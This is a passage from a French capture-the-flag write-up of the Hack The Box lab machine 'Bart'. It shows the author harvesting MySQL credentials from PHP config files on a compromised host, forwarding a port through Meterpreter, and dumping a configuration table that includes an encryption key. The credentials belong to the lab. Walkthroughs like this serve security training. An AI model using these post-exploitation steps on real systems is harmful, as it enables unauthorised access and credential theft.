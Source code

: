 Traversée du désert
-------------------

Je suis alors parti à la recherche d'identifiants éventuels dans les fichiers PHP. par exemple dans *C:\inetpub\wwwroot\internal-01\simple\_chat\includes\dbconnect.php* :  

```php
$con = @mysqli_connect('localhost', 'harvey', '!IC4nB3Th3B3st?', 'internal_chat');
```

ou encore dans *C:\inetpub\wwwroot\monitor\config.php* :  

```php
define('PSM_DB_HOST', 'localhost');
define('PSM_DB_PORT', '3306');
define('PSM_DB_NAME', 'sysmon');
define('PSM_DB_USER', 'daniel');
define('PSM_DB_PASS', '?St4r1ng1sCr33py?');
define('PSM_DB_PREFIX', '_');
define('PSM_BASE_URL', 'http://monitor.bart.htb');
```

Après la mise en place d'une redirection de ports depuis le Meterpreter :  

```plain
meterpreter > portfwd add -L 127.0.0.1 -l 3306 -p 3306 -r 127.0.0.1
[*] Local TCP relay created: 127.0.0.1:3306 <-> 127.0.0.1:3306
```

J'ai pu me connecter avec les identifiants MySQL pour fouiller d'avantage :  

```plain
MySQL [sysmon]> select * from _config;
+----------------------+------------------------------------------+
| key                  | value                                    |
+----------------------+------------------------------------------+
| language             | en_US                                    |
| proxy                | 0                                        |
| proxy_url            |                                          |
| proxy_user           |                                          |
| proxy_password       |                                          |
| email_status         | 1                                        |
| email_from_email     | monitor@bart.htb                         |
| email_from_name      | Server Monitor                           |
| email_smtp           | 0                                        |
| email_smtp_host      |                                          |
| email_smtp_port      |                                          |
| email_smtp_security  |                                          |
| email_smtp_username  |                                          |
| email_smtp_password  |                                          |
| sms_status           | 0                                        |
| sms_gateway          | mollie                                   |
| sms_gateway_username | username                                 |
| sms_gateway_password | password                                 |
| sms_from             | 1234567890                               |
| pushover_status      | 0                                        |
| pushover_api_token   |                                          |
| password_encrypt_key | 350b1e56356d48c12a70c6787e4db75585a3bbe9 |
| alert_type           | status                                   |
| log_status           | 1                                        |
| log_email            | 1                                        |
| log_sms              | 1                                        |
| log_pushover         | 1                                        |
| log_retention_period | 365                                      |
| version              | 3.2.1                                    |
| version_update_check | 3.2.0                                    |
| auto_refresh_servers | 0                                        |
| show_update          | 1                                        |
```